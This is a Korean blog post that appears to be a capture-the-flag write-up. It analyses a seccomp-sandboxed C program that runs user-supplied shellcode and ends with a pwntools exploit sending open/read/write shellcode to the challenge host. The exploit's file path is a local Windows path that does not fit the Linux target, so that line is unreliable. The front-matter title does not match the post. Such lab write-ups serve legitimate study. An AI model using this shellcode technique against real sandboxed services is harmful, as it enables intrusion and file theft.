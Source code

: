 ```yaml
---
layout: single
title:  "jupyter notebook 변환하기!"
categories: coding
tag: [python, blog, jekyll]
toc: true
author_profile: false
---
```


<head>
  <style>
    table.dataframe {
      white-space: normal;
      width: 100%;
      height: 240px;
      display: block;
      overflow: auto;
      font-family: Arial, sans-serif;
      font-size: 0.9rem;
      line-height: 20px;
      text-align: center;
      border: 0px !important;
    }

    table.dataframe th {
      text-align: center;
      font-weight: bold;
      padding: 8px;
    }

    table.dataframe td {
      text-align: center;
      padding: 8px;
    }

    table.dataframe tr:hover {
      background: #b8d1f3; 
    }

    .output_prompt {
      overflow: auto;
      font-size: 0.9rem;
      line-height: 1.45;
      border-radius: 0.3rem;
      -webkit-overflow-scrolling: touch;
      padding: 0.8rem;
      margin-top: 0;
      margin-bottom: 15px;
      font: 1rem Consolas, "Liberation Mono", Menlo, Courier, monospace;
      color: $code-text-color;
      border: solid 1px $border-color;
      border-radius: 0.3rem;
      word-break: normal;
      white-space: pre;
    }

  .dataframe tbody tr th:only-of-type {
      vertical-align: middle;
  }

  .dataframe tbody tr th {
      vertical-align: top;
  }

  .dataframe thead th {
      text-align: center !important;
      padding: 8px;
  }

  .page__content p {
      margin: 0 0 0px !important;
  }

  .page__content p > strong {
    font-size: 0.8rem !important;
  }

  </style>
</head>


### C 코드 분석


```C



#include <fcntl.h>

#include <seccomp.h>

#include <stdio.h>

#include <stdlib.h>

#include <string.h>

#include <sys/prctl.h>

#include <unistd.h>

#include <sys/mman.h>

#include <signal.h>



void alarm_handler() {

    puts("TIME OUT");

    exit(-1);

}



void init() {

    setvbuf(stdin, NULL, _IONBF, 0);

    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);

    alarm(10);

}



void banned_execve() {

  scmp_filter_ctx ctx;

  ctx = seccomp_init(SCMP_ACT_ALLOW);

  if (ctx == NULL) {

    exit(0);

  }

  seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(execve), 0);

  seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(execveat), 0);



  seccomp_load(ctx);

}



void main(int argc, char *argv[]) {

  char *shellcode = mmap(NULL, 0x1000, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);   

  void (*sc)();

  

  init();

  

  banned_execve();



  printf("shellcode: ");

  read(0, shellcode, 0x1000);



  sc = (void *)shellcode;

  sc();

}

```


#### init() 함수 분석


입출력 버퍼를 비활성화 및 시간 초과를 검사한다.



위에서 정의하였던 alarm_handler()함수를 이용하여 10초 타이머를 설정한다.


#### banned_execve() 함수 분석


seccomp 필터 초기화 후, execve()함수와 execveat()함수를 차단하는 규칙을 지정한다.


#### main() 함수 분석


mmap함수로, 메모리를 할당한 다음, 사용자로부터 쉘 코드를 입력받아 할당된 메모리에 저장한다.



여기서 쉘 코드는 포인터로 변환되어 호출된다.



banned_execve()함수에서 execve()함수와 execveat()함수를 차단하였기 때문에 일반적인 경로와 인자를 지정하여 프로그램을 실행할 수 없다.


### pwn 코드 작성


```python

from pwn import *



p = remote('host3.dreamhack.games', 18037)

# 원격 서버를 대상으로 익스플로잇을 진행 → remote() 함수 사욛



context.arch = 'amd64'

# 익스플로잇 대상 아키텍쳐는 amd64



payload = ''

payload += shellcraft.open('C:/Users/dst78/Downloads/shell_basic/flag_name_is_loooooong')

payload += shellcraft.read('rax', 'rsp', 100)

payload += shellcraft.write(1, 'rsp', 100)

# 페이로드를 문제에서 지정한 경로로 지정

# 스켈레톤 코드는 open, read, write 순서이므로 해당 순서를 따라 코드 작성

# 파일의 위치는 문제에서 지정하였으므로 바로 open

# read 함수는 rax에 저장된 정보를 통해 syscall을 수행, rsp스택의 시작주소 기입, 크기는 상관 x

# write 또한 마찬가지로 작성



p.sendline(asm(payload))

p.interactive()

```

